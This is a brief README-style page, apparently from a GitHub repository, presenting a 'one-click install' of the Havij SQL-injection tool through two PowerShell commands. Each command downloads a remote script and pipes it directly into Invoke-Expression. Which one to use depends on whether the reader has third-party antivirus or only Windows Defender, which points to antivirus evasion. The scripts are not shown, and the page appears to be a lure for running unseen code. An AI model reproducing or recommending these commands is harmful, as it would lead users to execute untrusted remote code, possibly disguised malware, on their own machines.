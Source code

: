 ## Havij one-click install (PowerShell)

- If you have antivirus software installed, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex
```
- If you only have Windows Defender, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/onelazy.ps1 | iex
```
